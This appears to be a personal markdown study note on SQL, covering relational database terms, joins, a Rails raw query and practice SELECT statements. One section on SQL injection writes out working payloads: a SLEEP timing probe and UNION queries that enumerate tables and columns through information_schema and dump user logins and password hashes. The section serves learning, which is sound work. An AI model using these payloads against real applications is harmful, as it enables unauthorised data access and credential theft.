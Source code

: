 # SQL

* Designed to work with *Relational Databases*
* A query result is best described as a *record* (i.e., not a row as query results may be columns as well)

## Language

* Relational Database: a data store that is capable of representing relationships between different data sets.
  - displayed in rows and columns
* DML: add, query, manipulate, delete data from tables and datasets.
* DDL: defines tables, indexes, and relationships.
* DMS - Database Management System: Oracle, PostgreSQL, SQLite, MySQL

## LeftOuterJoin

Keeps all the records on the left after the join occurs - otherwise, it would just join with the right table and return only those results that can be joined

To practice writing in rails:

```SQL
ActiveRecord::Base
  .connection
  .execute(
    "SELECT \"events\".*
    FROM \"events\"
    ORDER BY \"events\".updated_at DESC"
  )
  .to_a.first
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)

## HTTP vs TCP vs UDP

## SQL Practice

```SQL
  -- ORDER By
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- Not Equal To <>
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- AS for a column name
  SELECT country.name, country.code, country.IndepYear AS 'Year of Independence' FROM country WHERE country.code <> "AFG" ORDER BY country.code;
```

### Expressions

```SQL
-- COUNT
SELECT COUNT('country.*') FROM country;
-- COUNT('country.*')
-- 239
SELECT COUNT(*) FROM country;
-- COUNT(*)
-- 239
```

```SQL
-- Arithmetic
SELECT 1+10;
```

*SQLite* [date and time functions](https://sqlite.org/lang_datefunc.html)

```SQL
-- This is SQLite specific
SELECT strftime('%j %H %w %f', datetime());
-- strftime('%j %H %w %f', datetime())
-- 228 12 3 11.000
```

